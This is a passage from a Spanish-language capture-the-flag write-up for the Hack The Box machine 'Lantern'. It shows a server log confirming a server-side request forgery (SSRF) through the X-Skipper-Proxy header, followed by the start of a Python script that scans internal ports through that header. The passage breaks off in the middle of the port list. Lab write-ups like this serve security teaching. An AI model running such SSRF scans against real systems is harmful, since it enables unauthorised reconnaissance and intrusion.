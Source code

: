 ![Write-up Image](images/Screenshot_5.png)
```shell
python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.129.233.201 - - [23/Aug/2024 17:58:06] code 404, message File not found
10.129.233.201 - - [23/Aug/2024 17:58:06] "GET http://lantern.htb/ HTTP/1.1" 404 -
```

Vamos a intentar listar servicios internos, para ello vamos a hacer un pequeño script en python.

## Discovering Internal Services
Le pregunté a ChatGPT una lista de puertos comunes de servicios web para intentar interactuar con ellos a través del SSRF.

```python
import requests
from pwn import * 

BASE_URL = "http://lantern.htb"
BASE_LENGTH = 20
SSRF_HEADER = "X-Skipper-Proxy"

puertos_http = [
    80,    # HTTP estándar
    8080,  # HTTP alternativo
    443,   # HTTPS estándar
    8443,  # HTTPS alternativo
    8000,  # Desarrollo de servidores locales
    8888,  # Jupyter notebooks
    8880,  # Alternativa HTTP
    81,    # HTTP secundario, a veces utilizado para cámaras web y otros dispositivos
    591,   # FileMaker, servicios web
    280,   # http-mgmt
    631,   # IPP (Internet Printing Protocol)
    8008,  # Alternativa HTTP, utilizado a veces por proxies o servicios de API
    8081,  # HTTP alternativo, a menudo usado para servidores web o proxies
    8090,  # HTTP alternativo, a veces utilizado para proxies
    9080,  # HTTP alternativo, a menudo usado en entornos de desarrollo
    4848,  # GlassFish Administration Console
    9000,  # Servicios web como SonarQube, PHP-FPM
    9081,  # Servicios alternativos o de desarrollo
    7001,  # WebLogic Administration Console
```